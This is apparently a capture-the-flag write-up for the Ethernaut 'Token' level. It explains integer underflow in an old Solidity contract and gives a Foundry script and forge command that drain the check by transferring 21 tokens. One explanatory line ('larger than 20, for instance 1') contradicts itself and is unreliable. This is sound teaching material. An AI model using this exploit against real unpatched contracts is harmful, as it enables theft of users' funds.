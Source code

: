 ## 👾 05. Token

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/b4985e6e-fbb2-4e7c-ac7b-2e249f857bb4">
</p>


<br>


### tl; dr

<br>


* in this challenge, we explore a classic vulnerability in both web2 and web3 security: **integer overflows**.


<br>


```solidity
contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```


<br>

---

### discussion

<br>

 * programming languages that are not memory-managed can have their integer variables overflown if assigned to values larger than the variables' capacity limit.
    - we will use this trick to overflow a `uint` and bypass the `require()` check of `Token()`'s `transfer()` function:

<br>

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
}
```

<br>

 * whenever we add `1` to a variable's maximum value, the value wraps around and decreases.
    - for example, an (unsigned) `uint8`, has the maximum value of `2^8 - 1 = 255`. if we add `1` to it, it becomes `0`. same as `2^256 - 1 + 1`.
    - symmetrically, if we subtract a value larger than what the variable holds, the result wraps around from the other side, increasing the variable's value. this is our exploit.

<br>

* if we pass a `_value` to `transfer()` that is larger than `20`, for instance `1`, `balances[msg.sender] - _value` results on `uint256(-1)`, which is equal to a very large number, `2^256 – 1`.


<br>

* **[in solidity, this type of integer overflow used to be a vulnerability until version `0.8.0`](https://solidity-by-example.org/hacks/overflow/)**.
    - this is why contracts were advised to use **[OpenZeppelin' `SafeMath.sol`](https://docs.openzeppelin.com/contracts/4.x/utilities#math
)** whenever they performed integer operations.
    - in newer versions, if the code is not performing these operations, we can use `unchecked` to save gas.

<br>



----

### solution in solidity

<br>

* since this challenge is so easy, we skip tests and go direct to the submission script, `script/05/Token.s.sol`:

<br>

```solidity
contract Exploit is Script {
        
        address instance = vm.envAddress("INSTANCE_LEVEL5");   
        address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY"));    
        Token level = Token(instance);     
        
        function run() external {
            vm.startBroadcast(hacker);
            level.transfer(address(0), 21);
            vm.stopBroadcast();
    }
}
```

<br>

* running with:

<br>

```shell
> forge script ./script/05/Token.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>

---

### alternative 3-lines solution directly in the console

<br>

<p align="center">
<img width="600" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/c2d2db5c-feb8-469d-91b6-5b852cc5f011">
</p>

<br>


----


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



